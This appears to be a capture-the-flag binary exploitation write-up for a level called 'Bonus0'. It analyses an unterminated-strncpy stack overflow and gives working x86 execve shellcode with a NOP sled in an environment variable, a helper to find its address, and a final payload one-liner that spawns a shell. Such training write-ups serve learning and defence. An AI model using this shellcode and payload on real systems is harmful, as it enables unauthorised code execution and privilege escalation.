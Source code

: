# Bonus0

## Code

```
#include <string.h>
#include <stdlib.h>
#include <stdio.h>
#include <unistd.h>

unsigned short *a = 32;

void    p(char *dest, char *s)
{
  char buf[4096];

  puts(s);
  read(0, buf, 4096);
  *strchr(buf, '\n') = 0;
  strncpy(dest, buf, 20);
}

void    pp(char *dest)
{
  char str1[20]; 
  char str2[20];

  p(str1, " - ");
  p(str2, " - ");
  strcpy(dest, str1);
  dest[strlen(dest)] = *a;
  strcat(dest, str2);
}

int     main(int argc, const char **argv)
{
  char s[42];

  pp(s);
  puts(s);
  return 0;
}
```

## Explanation


- This program takes two strings and does some copying and concatenation
    stuff with them before displaying both strings.

- After a few tests, we noticed that it was quite easy to overflow the two
    buffers by giving them more than 20 characters. They are copied with 
    strncpy, therefore if no '\0' is found after 20 characters, the string
    will not be null terminated.

- When running the program with gdb, you can see the address where the
    program tried to jump before segfault, so by replacing this address
    with the address of our shellcode, we should be able to launch a 
    shell session.

- So we used gdb with these inputs :

    (gdb) run
        Starting program: /home/user/bonus0/bonus0 
        - 
        AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
        - 
        ABCDEFGHIJKLMNOPQRSTUVWX
        AAAAAAAAAAAAAAAAAAAAABCDEFGHIJKLMNOPQRST��� ABCDEFGHIJKLMNOPQRST���

        Program received signal SIGSEGV, Segmentation fault.
        0x4d4c4b4a in ?? ()

- Looking at the address, we recognize the ascii values for J, K, L and M

- We understood that we were going to need to overflow these two strings
    while giving the second string our shellcode's address at the spot
    where JKLM stood in our previous test, so at bytes 10, 11, 12, 13.

- This time we decided to write our shellcode as an env variable thanks
    this command :

        export EXPLOIT=`python -c 'print "\x90" * 50 + "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80"'`

        (We start by printing 50 NOP bytes so we don't have to be super precise when jumping
        to our shell code, we can jump a few bytes after the address and the program will
        slide to the next instructions)

- To get our variable address, we compiled a small program in /tmp :

    #include <stdio.h>
    #include <stdlib.h>

    int main()
    {
        printf("%p\n", getenv("EXPLOIT"));
        return 0;
    }

- When executing it we got the address 0xbffff805, so our jump needs to be done there,
    or a few bytes later since we have 50 NOP bytes.

## Exploit

- So here is our final payload :
```
$    (python -c'print "A" * 30' ; python -c'print "A" * 9 + "\xbf\xff\xf8\x08"[::-1] + "A" * 50' ; cat)  | ./bonus0
```
- Of course, the number of "A"s in the first string, and the number of "A"s after 
    the shellcode address in the second string can be different, as long as the
    final strings are longer than 20.